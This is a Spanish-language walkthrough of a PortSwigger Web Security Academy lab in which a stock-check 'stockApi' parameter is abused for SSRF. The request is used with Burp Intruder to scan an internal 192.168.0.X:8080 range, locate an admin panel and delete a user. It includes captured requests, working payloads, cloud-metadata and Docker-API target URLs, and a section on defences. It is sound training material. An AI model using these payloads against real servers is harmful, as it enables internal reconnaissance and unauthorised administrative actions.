






# PortSwigger Web Security Academy — SSRF Lab 2

## Basic SSRF against another back-end system

**URL del laboratorio:**

`https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system`

**Categoría:** Server-Side Request Forgery, SSRF  
**Tipo de vulnerabilidad:** SSRF básico contra red interna / sistema backend distinto  
**Objetivo:** usar la funcionalidad de comprobación de stock para escanear el rango interno `192.168.0.X:8080`, encontrar el panel de administración interno y eliminar al usuario `carlos`.



---

## 1. Enunciado del laboratorio

El laboratorio indica que existe una funcionalidad de comprobación de stock que obtiene datos desde un sistema interno. Para resolverlo hay que usar esa funcionalidad para escanear el rango interno:

```text
192.168.0.X:8080
```

El objetivo es encontrar una interfaz de administración y, una vez localizada, usarla para eliminar al usuario:

```text
carlos
```

La diferencia importante con el laboratorio anterior de SSRF contra `localhost` es que aquí el panel de administración **no está en la propia máquina local del servidor vulnerable**. Está en otra máquina interna de la red privada. Por eso no basta con probar `http://localhost/admin`; hay que descubrir en qué IP interna está escuchando el servicio.

---

## 2. Idea principal del laboratorio

Este laboratorio enseña una idea muy importante en SSRF:

> SSRF no solo sirve para acceder a un recurso interno conocido. También puede usarse para escanear una red interna y descubrir servicios.

En el laboratorio anterior, el objetivo era directo:

```text
http://localhost/admin
```

En este laboratorio, el objetivo es desconocido parcialmente:

```text
http://192.168.0.X:8080/admin
```

Sabemos tres cosas:

1. Está en la red privada `192.168.0.0/24`.
2. Está escuchando en el puerto `8080`.
3. La ruta que buscamos es `/admin`.

Pero no sabemos el último octeto de la IP. Puede ser `192.168.0.1`, `192.168.0.2`, `192.168.0.132`, etc.

Por eso usamos Burp Intruder para automatizar pruebas desde `1` hasta `255`.

---

## 3. Qué es SSRF en este contexto

SSRF significa **Server-Side Request Forgery**. En español, sería algo como “falsificación de peticiones del lado servidor”.

La idea es esta:

```text
Tú no haces directamente la petición al recurso interno.
Haces que el servidor vulnerable la haga por ti.
```

El flujo normal de una funcionalidad vulnerable de stock suele ser parecido a esto:

```text
Navegador del usuario
    ↓
POST /product/stock
    ↓
Servidor vulnerable
    ↓
GET http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
    ↓
Servicio interno de stock
```

El problema aparece si el parámetro que contiene la URL interna puede ser modificado por el usuario.

En este lab ese parámetro se llama:

```text
stockApi
```

Si controlamos `stockApi`, controlamos a dónde se conecta el backend.

Entonces podemos cambiar esto:

```text
stockApi=http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
```

por esto:

```text
stockApi=http://192.168.0.132:8080/admin
```

El navegador no accede directamente a `192.168.0.132`. Quien hace esa petición es el servidor vulnerable.

Esa es la clave del SSRF:

```text
Atacante → servidor vulnerable → red interna
```

---

## 4. Diferencia con el laboratorio anterior de localhost

En el lab anterior, el panel de administración estaba en:

```text
http://localhost/admin
```

Eso funcionaba porque `localhost` hacía referencia a la propia máquina del servidor vulnerable.

Pero en este lab, el panel admin está en otra máquina interna. Por eso:

```text
http://localhost/admin
```

no sirve.

`localhost` siempre significa “esta misma máquina”, pero depende desde dónde se resuelva. En SSRF, cuando enviamos:

```text
stockApi=http://localhost/admin
```

el `localhost` no es nuestro ordenador. Es el servidor vulnerable.

En este laboratorio, el servidor vulnerable no tiene el panel admin en su propio `localhost`. El panel está en otra IP de la red interna:

```text
192.168.0.X:8080
```

Por eso el ataque cambia:

| Laboratorio | Objetivo | Estrategia |
|---|---|---|
| SSRF contra localhost | Objetivo conocido | Probar directamente `http://localhost/admin` |
| SSRF contra otro backend | Objetivo desconocido | Escanear `192.168.0.1-255:8080/admin` |

La frase clave es:

> Cuando no sabes dónde está el servicio interno, SSRF se convierte en un escáner de red.

---

## 5. Qué significa `192.168.0.X`

`192.168.0.X` es un rango de red privada. Las direcciones privadas suelen usarse dentro de redes internas de empresas, laboratorios, routers domésticos, entornos de desarrollo, redes de contenedores, etc.

Ejemplos:

```text
192.168.0.1
192.168.0.2
192.168.0.50
192.168.0.132
192.168.0.255
```

Desde Internet normalmente no puedes acceder directamente a esas IPs. Pero el servidor vulnerable puede tener conectividad hacia esa red interna.

Eso es lo peligroso:

```text
Nosotros no vemos la red interna.
Pero el servidor vulnerable sí.
```

Con SSRF hacemos que el servidor actúe como puente hacia esa red.

---

## 6. Por qué importa el puerto `8080`

Una IP por sí sola no identifica completamente un servicio. También importa el puerto.

Piensa en la IP como un edificio y los puertos como puertas dentro de ese edificio.

| Puerto | Uso típico |
|---|---|
| 80 | HTTP |
| 443 | HTTPS |
| 22 | SSH |
| 3306 | MySQL |
| 6379 | Redis |
| 8080 | Aplicaciones web internas, paneles admin, Tomcat, APIs |

Si escribimos:

```text
http://192.168.0.132/admin
```

realmente estamos usando el puerto HTTP por defecto:

```text
http://192.168.0.132:80/admin
```

Pero el laboratorio nos dice que el servicio está en el puerto `8080`, así que la URL correcta debe incluirlo:

```text
http://192.168.0.132:8080/admin
```

Esto es importante porque en SSRF no solo se escanean IPs. Muchas veces se escanean combinaciones de IP + puerto.

Ejemplos reales:

```text
http://192.168.0.5:80/
http://192.168.0.5:8080/
http://192.168.0.5:8443/
http://192.168.0.5:5000/
http://192.168.0.5:2375/
```

La frase clave:

> En SSRF importa tanto la IP como el puerto.

---

## 7. Primer paso práctico: abrir el laboratorio

Al iniciar el laboratorio se abre una tienda con productos.


La funcionalidad vulnerable se encuentra en el botón de comprobación de stock. Para llegar a ella:

1. Entramos en cualquier producto con **View details**.
2. Pulsamos **Check stock**.
3. Capturamos la petición con Burp Suite usando el proxy.
4. Enviamos la petición a **Repeater** para analizarla y modificarla manualmente.

---

## 8. Petición original de comprobación de stock

La petición capturada es similar a esta:

```http
POST /product/stock HTTP/1.1
Host: 0a9b00680466a77c81fe0779006f0064.web-security-academy.net
Cookie: session=lgT8LvjFq9WPJm4Ji1BiGskJ5TBbe1rJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9b00680466a77c81fe0779006f0064.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a9b00680466a77c81fe0779006f0064.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

La parte importante es el body:

```text
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Está URL-encoded. Si lo decodificamos, queda así:

```text
stockApi=http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
```

Esto nos dice varias cosas importantes:

1. El backend recibe una URL completa.
2. El backend usa esa URL para consultar el stock.
3. El parámetro `stockApi` apunta ya a una IP interna `192.168.0.1`.
4. La aplicación está usando el puerto `8080`.
5. Nosotros podemos modificar ese valor.

Si enviamos la petición original, responde algo como:

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

961
```

Ese `961` es simplemente el número de unidades en stock. Lo importante no es el número; lo importante es que el backend está haciendo una petición a la URL indicada en `stockApi` y nos devuelve el resultado.

---

## 9. Lectura de la petición como si fuéramos el backend

Cuando pulsamos **Check stock**, el navegador envía:

```text
POST /product/stock
```

El servidor vulnerable recibe el parámetro:

```text
stockApi=http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
```

Internamente hace algo equivalente a:

```python
requests.get(stockApi)
```

o:

```javascript
fetch(stockApi)
```

El fallo aparece porque `stockApi` no debería estar bajo control del usuario. Si lo está, el usuario puede elegir el destino de la petición del servidor.

Flujo real:

```text
Tu navegador
    ↓
POST /product/stock con stockApi=...
    ↓
Servidor vulnerable
    ↓
GET a la URL indicada en stockApi
    ↓
Servicio interno
    ↓
Respuesta vuelve al servidor vulnerable
    ↓
Servidor vulnerable te devuelve la respuesta a ti
```

La frase clave:

> SSRF ocurre cuando controlas a dónde conecta el backend.

---

## 10. Prueba con `localhost/admin` y por qué falla

Como veníamos del laboratorio anterior, probamos el payload clásico:

```text
stockApi=http://localhost/admin
```

En Burp, URL-encoded:

```text
stockApi=http%3a//localhost/admin
```

La respuesta fue:

```http
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2454
```

Y en el HTML aparece el mensaje:

```html
<h4>Internal Server Error</h4>
<p class=is-warning>Could not connect to external stock check service</p>
```

Este error es importante. No significa que el SSRF no exista. Significa que el backend intentó conectar con ese destino, pero no pudo.

En este caso, `localhost/admin` falla porque:

1. `localhost` apunta a la propia máquina del servidor vulnerable.
2. En este lab el panel admin no está en esa máquina.
3. El panel está en otro sistema backend interno.
4. Además, el panel está en el puerto `8080`, no en el puerto `80`.

El mensaje:

```text
Could not connect to external stock check service
```

nos da información útil: el servidor intentó hacer la conexión. En SSRF, incluso los errores ayudan a mapear la red.

La frase clave:

> En SSRF, incluso un 500 puede confirmar que el backend intentó conectar a un destino controlado por nosotros.

---

## 11. Preparar el escaneo con Intruder

Ya sabemos que `localhost` no sirve. Ahora tenemos que encontrar qué IP del rango `192.168.0.X` contiene el panel admin.

Queremos probar estas URLs:

```text
http://192.168.0.1:8080/admin
http://192.168.0.2:8080/admin
http://192.168.0.3:8080/admin
...
http://192.168.0.255:8080/admin
```

Hacer esto a mano sería lento. Por eso usamos **Burp Intruder**.

Primero modificamos el parámetro `stockApi` para que apunte a `/admin`:

```text
stockApi=http://192.168.0.1:8080/admin
```

En Burp lo URL-encodeamos:

```text
stockApi=http%3a//192.168.0.1%3a8080/admin
```

Luego marcamos como posición de payload el último octeto de la IP:

```text
stockApi=http%3a//192.168.0.§1§%3a8080/admin
```



Esto significa que Intruder reemplazará ese `1` por valores generados automáticamente.

---

## 12. Configurar los payloads numéricos

En la pestaña **Payloads** seleccionamos:

```text
Payload type: Numbers
```

Configuración:

```text
From: 1
To: 255
Step: 1
```



Con esto, Intruder generará 255 peticiones:

```text
192.168.0.1
192.168.0.2
192.168.0.3
...
192.168.0.255
```

Cada petición será enviada al endpoint vulnerable `/product/stock`, pero con un `stockApi` distinto.

Esto no escanea desde nuestro ordenador. Escanea desde el servidor vulnerable.

Flujo:

```text
Burp Intruder
    ↓
POST /product/stock
    ↓
Servidor vulnerable
    ↓
GET http://192.168.0.X:8080/admin
```

Eso es SSRF convertido en escaneo interno.

---

## 13. Ejecutar el ataque y analizar resultados

Lanzamos el ataque con **Start attack**.

En los resultados, filtramos u ordenamos por **Status code**.



La mayoría de respuestas tienen códigos como:

```text
400
500
```

Pero hay una respuesta diferente:

```text
200 OK
```

En este caso, la respuesta interesante corresponde al payload:

```text
132
```

Eso significa que el panel admin está en:

```text
http://192.168.0.132:8080/admin
```

En Burp lo tenemos como:

```text
stockApi=http%3a//192.168.0.132%3a8080/admin
```

Si lo decodificamos:

```text
stockApi=http://192.168.0.132:8080/admin
```

La diferencia en el status code es la señal que buscábamos.

Interpretación:

| Resultado | Significado probable |
|---|---|
| 500 | No se pudo conectar o el servicio no responde como se espera |
| 400 | Petición inválida o host/servicio no válido |
| 200 | Servicio encontrado y respondió correctamente |

La respuesta `200` nos indica que hemos encontrado la interfaz de administración.

---

## 14. Confirmar el panel de administración en Repeater

Enviamos la petición interesante a Repeater y usamos:

```text
stockApi=http://192.168.0.132:8080/admin
```

URL-encoded:

```text
stockApi=http%3a//192.168.0.132%3a8080/admin
```

La respuesta es:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3245
```

Dentro del HTML aparece el panel:

```html
<section>
    <h1>Users</h1>
    <div>
        <span>wiener - </span>
        <a href="/http://192.168.0.132:8080/admin/delete?username=wiener">Delete</a>
    </div>
    <div>
        <span>carlos - </span>
        <a href="/http://192.168.0.132:8080/admin/delete?username=carlos">Delete</a>
    </div>
</section>
```

Si renderizamos la respuesta, vemos el panel admin con los usuarios `wiener` y `carlos`.



Esto confirma tres cosas:

1. Hemos encontrado el host interno correcto.
2. El panel admin existe en `192.168.0.132:8080`.
3. Hay una acción para borrar usuarios usando `/admin/delete?username=...`.

---

## 15. Cuidado con los enlaces renderizados

En la respuesta renderizada se ve un enlace de borrado. Pero no debemos confundirnos.

El HTML puede mostrar algo como:

```html
<a href="/http://192.168.0.132:8080/admin/delete?username=carlos">Delete</a>
```

Pero en este lab no necesitamos hacer clic directamente en ese enlace desde el navegador. Lo importante es entender cuál es el endpoint real del sistema interno:

```text
http://192.168.0.132:8080/admin/delete?username=carlos
```

Y ese endpoint hay que volver a pasarlo por `stockApi` para que el servidor vulnerable lo solicite internamente.

La petición final no es al navegador. Es otra SSRF.

---

## 16. Petición final para borrar a Carlos

Una vez localizada la IP correcta, usamos el endpoint de borrado:

```text
http://192.168.0.132:8080/admin/delete?username=carlos
```

Lo ponemos en `stockApi`:

```text
stockApi=http://192.168.0.132:8080/admin/delete?username=carlos
```

URL-encoded:

```text
stockApi=http%3a//192.168.0.132%3a8080/admin/delete%3fusername%3dcarlos
```

La respuesta devuelve:

```http
HTTP/2 302 Found
Location: http://192.168.0.132:8080/admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Este `302 Found` es normal.

Significa que el endpoint `/admin/delete` ha ejecutado la acción y después redirige de vuelta al panel admin:

```text
Location: http://192.168.0.132:8080/admin
```

En aplicaciones web es muy común este patrón:

```text
1. Ejecutar acción: borrar usuario
2. Redirigir al panel
```

Por tanto, el `302` no indica fallo. Normalmente indica que la acción se ejecutó correctamente.

---

## 17. Confirmación de laboratorio resuelto

Después de ejecutar el endpoint de borrado, el laboratorio aparece como resuelto.

Si volvemos a solicitar el panel admin mediante SSRF, `carlos` ya no aparece en la lista.



La respuesta renderizada muestra:

```text
User deleted successfully!

Users
wiener - Delete
```

El usuario `carlos` ya no está.

---

## 18. Flujo completo del ataque

El flujo completo del laboratorio queda así:

```text
1. Entramos al producto.
2. Pulsamos Check stock.
3. Capturamos POST /product/stock.
4. Vemos que existe el parámetro stockApi.
5. Confirmamos que stockApi contiene una URL interna.
6. Probamos localhost/admin.
7. Falla con 500 porque el panel no está en localhost.
8. Preparamos Intruder con 192.168.0.§1§:8080/admin.
9. Probamos valores de 1 a 255.
10. Encontramos una respuesta 200 en el payload 132.
11. Confirmamos el panel en http://192.168.0.132:8080/admin.
12. Vemos el usuario carlos y su endpoint de borrado.
13. Enviamos SSRF a /admin/delete?username=carlos.
14. Recibimos 302 de redirección.
15. El usuario carlos queda eliminado.
16. El laboratorio se marca como resuelto.
```

---

## 19. Por qué esto es SSRF y no otro tipo de vulnerabilidad

No estamos inyectando JavaScript.
No estamos modificando HTML.
No estamos explotando SQL.
No estamos autenticándonos como admin.

Lo que hacemos es controlar una URL que el servidor usará para hacer una petición.

El parámetro vulnerable es:

```text
stockApi
```

El sink vulnerable no es un sink de DOM ni de SQL. Es una llamada HTTP del backend.

Conceptualmente:

```text
backend.fetch(userControlledUrl)
```

Eso es SSRF.

La señal principal es que el servidor devuelve respuestas de recursos que normalmente no serían accesibles desde nuestro navegador.

---

## 20. Por qué esto es más grave que una simple consulta de stock

La funcionalidad legítima era inocente:

```text
Consultar stock de un producto.
```

Pero al aceptar una URL completa desde el cliente, el servidor queda convertido en un proxy interno.

Con esa capacidad se puede:

- Acceder a paneles internos.
- Escanear rangos privados.
- Descubrir servicios ocultos.
- Atacar APIs internas.
- Acceder a metadatos cloud.
- Interactuar con servicios que solo confían en la red interna.

Este lab lo demuestra con un panel admin, pero en entornos reales los objetivos pueden ser mucho más sensibles:

```text
http://169.254.169.254/latest/meta-data/
http://localhost:2375/containers/json
http://127.0.0.1:6379/
http://10.0.0.5:8080/admin
http://192.168.1.20:5000/debug
```

---

## 21. Qué nos enseñan los códigos de estado

Durante el escaneo, los códigos de estado son señales.

No todos los errores son inútiles. En SSRF, un error puede decirnos mucho.

| Código | Interpretación posible |
|---|---|
| 200 | Servicio encontrado y ruta válida |
| 302 | Acción ejecutada y redirección posterior |
| 400 | Petición rechazada o mal formada |
| 500 | El backend no pudo conectar, hubo error interno o respuesta inesperada |
| Timeout | Host no responde o puerto cerrado/filtrado |

En este lab, el `200` fue la pista decisiva.

También el `500` de `localhost/admin` fue útil, porque nos indicó que el servidor sí intentó hacer la petición, pero no encontró el servicio esperado.

Frase clave:

> En SSRF, los errores también son información.

---

## 22. Por qué Burp Intruder es útil aquí

Burp Repeater sirve para probar manualmente una petición.

Burp Intruder sirve para automatizar muchas pruebas variando una parte de la petición.

Aquí queríamos variar únicamente:

```text
192.168.0.X
```

Por eso marcamos el último octeto como payload:

```text
192.168.0.§1§
```

Y configuramos Intruder para probar:

```text
1..255
```

Intruder nos permitió encontrar rápidamente que la IP correcta era:

```text
192.168.0.132
```

Sin Intruder, tendríamos que haber probado 255 IPs manualmente.

---

## 23. Detalle sobre URL encoding

El parámetro `stockApi` viaja dentro de un body con:

```http
Content-Type: application/x-www-form-urlencoded
```

Por eso ciertos caracteres deben ir codificados.

Ejemplos:

| Carácter | Codificación |
|---|---|
| `:` | `%3a` o `%3A` |
| `/` | `%2f` o `%2F` |
| `?` | `%3f` o `%3F` |
| `=` | `%3d` o `%3D` |
| `&` | `%26` |

La URL final:

```text
http://192.168.0.132:8080/admin/delete?username=carlos
```

puede enviarse como:

```text
http%3a//192.168.0.132%3a8080/admin/delete%3fusername%3dcarlos
```

En Burp se puede usar `Ctrl+U` para URL-encodear una selección y `Ctrl+Shift+U` para URL-decodear.

---

## 24. Qué habría pasado si hubiéramos escaneado mal

Si hubiéramos probado:

```text
http://192.168.0.X/admin
```

sin `:8080`, estaríamos probando el puerto 80 por defecto.

Eso probablemente no encontraría nada.

Si hubiéramos probado:

```text
http://localhost:8080/admin
```

tampoco necesariamente funcionaría, porque el objetivo no está en localhost, sino en otro host interno.

Si hubiéramos probado solo el endpoint de stock:

```text
http://192.168.0.X:8080/product/stock/check?productId=1&storeId=1
```

podríamos encontrar servicios de stock, pero el objetivo del lab es encontrar `/admin`.

La combinación correcta es:

```text
192.168.0.X + puerto 8080 + ruta /admin
```

---

## 25. Impacto real de este tipo de SSRF

Este lab parece sencillo, pero la técnica es muy seria.

Un SSRF como este puede permitir:

1. **Reconocimiento interno**  
   Descubrir hosts y servicios que no están expuestos a Internet.

2. **Acceso a paneles restringidos**  
   Paneles que confían en la IP interna del servidor vulnerable.

3. **Acciones administrativas**  
   Como eliminar usuarios, cambiar configuraciones o consultar información sensible.

4. **Bypass de firewalls**  
   El firewall bloquea al atacante externo, pero permite al servidor interno.

5. **Ataques a infraestructura cloud**  
   Por ejemplo, acceso a metadata services si no hay protecciones adecuadas.

6. **Escaneo de puertos internos**  
   Usar diferencias en tiempo, tamaño, código de respuesta o errores para mapear servicios.

La frase clave:

> SSRF convierte la confianza interna del servidor en una herramienta para el atacante.

---

## 26. Cómo se debería proteger esta funcionalidad

La defensa correcta no es simplemente bloquear `localhost`.

Este lab demuestra por qué: aunque bloquees `localhost`, el atacante puede ir a `192.168.0.X`.

Medidas defensivas más sólidas:

### 26.1 No aceptar URLs completas desde el cliente

Malo:

```text
stockApi=http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
```

Mejor:

```text
productId=1&storeId=1
```

Y el backend decide internamente qué servicio consultar.

### 26.2 Allowlist estricta de destinos

Permitir solo dominios o hosts concretos, no cualquier URL.

Ejemplo:

```text
stock.internal.local
```

No permitir:

```text
localhost
127.0.0.1
192.168.0.0/16
10.0.0.0/8
172.16.0.0/12
169.254.0.0/16
```

### 26.3 Validar IP después de resolver DNS

Si se permite un hostname, hay que resolverlo y comprobar la IP final.

Esto evita bypasses de DNS rebinding o dominios que resuelven a IPs internas.

### 26.4 Bloquear rangos internos

El backend no debería poder conectar arbitrariamente a:

```text
127.0.0.0/8
10.0.0.0/8
172.16.0.0/12
192.168.0.0/16
169.254.0.0/16
::1
fc00::/7
fe80::/10
```

### 26.5 Restringir egress de red

A nivel de infraestructura, el servidor web no debería poder conectar a cualquier host interno.

### 26.6 No exponer acciones admin por GET

El endpoint:

```text
/admin/delete?username=carlos
```

es peligroso porque una acción destructiva se ejecuta mediante GET.

Sería mejor exigir:

- POST.
- Autenticación fuerte.
- CSRF token.
- Autorización real.
- Comprobación de permisos.

### 26.7 No confiar solo en “viene de red interna”

Muchos sistemas internos confían en que si una petición viene desde una IP interna, es legítima.

SSRF rompe esa suposición.

---

## 27. Resumen final

Este laboratorio muestra cómo una funcionalidad aparentemente normal de comprobación de stock puede convertirse en una herramienta de reconocimiento interno y explotación.

La vulnerabilidad está en que el parámetro `stockApi` permite controlar la URL a la que se conecta el backend.

Primero probamos `localhost/admin`, pero falla porque el panel no está en localhost. Después usamos Burp Intruder para escanear `192.168.0.1-255` en el puerto `8080`, buscando `/admin`. La respuesta `200 OK` aparece en `192.168.0.132`, lo que revela el host interno que contiene el panel de administración. Finalmente usamos SSRF para solicitar:

```text
http://192.168.0.132:8080/admin/delete?username=carlos
```

y el servidor interno elimina al usuario `carlos`.

La idea más importante es:

> SSRF no solo permite leer recursos internos; también puede convertir al servidor vulnerable en un escáner y cliente privilegiado dentro de la red interna.

---

## 28. Payloads clave usados

### Petición original de stock

```text
stockApi=http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1
```

### Prueba fallida contra localhost

```text
stockApi=http://localhost/admin
```

### Escaneo con Intruder

```text
stockApi=http://192.168.0.§1§:8080/admin
```

### Host admin encontrado

```text
stockApi=http://192.168.0.132:8080/admin
```

### Borrado de Carlos

```text
stockApi=http://192.168.0.132:8080/admin/delete?username=carlos
```

### Borrado de Carlos URL-encoded

```text
stockApi=http%3a//192.168.0.132%3a8080/admin/delete%3fusername%3dcarlos
```

---

## 29. Frases clave para recordar

```text
SSRF ocurre cuando controlas a dónde conecta el backend.
```

```text
localhost en SSRF significa localhost del servidor, no tu ordenador.
```

```text
Cuando no sabes dónde está el servicio interno, SSRF se convierte en un escáner de red.
```

```text
En SSRF importa tanto la IP como el puerto.
```

```text
Los errores también revelan información sobre la red interna.
```

```text
SSRF convierte al servidor vulnerable en tu proxy interno.
```

